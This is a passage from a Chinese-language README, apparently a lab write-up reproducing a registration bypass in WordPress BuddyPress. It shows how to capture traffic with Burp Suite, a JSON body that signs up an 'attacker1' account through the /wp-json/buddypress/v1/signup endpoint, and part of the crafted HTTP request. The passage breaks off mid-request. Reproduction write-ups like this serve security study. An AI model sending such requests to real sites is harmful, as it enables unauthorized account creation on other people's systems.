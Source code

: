 ![1747897882478](image/readme/1747897882478.png)

#### （二）注册绕过
1. **抓包注册请求**
   - 使用 Burp Suite 抓包。
   ![1747897930858](image/readme/1747897930858.png)
   - 点击`send to repeater`，构造 POST 请求，发送到 `/wp-json/buddypress/v1/signup`。
   - 请求体如下：
     ```json
     {
       "user_login": "attacker1",
       "user_email": "attacker1@163.com",
       "user_name": "attacker1",
       "password": "attacker1"
     }
     ```
    - 最终构造的请求包：
        ```
        POST /wp-json/buddypress/v1/signup HTTP/1.1
        Host: 192.168.20.12:10459
        Upgrade-Insecure-Requests: 1
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36 Edg/136.0.0.0
        Accept: */*
        Accept-Encoding: gzip, deflate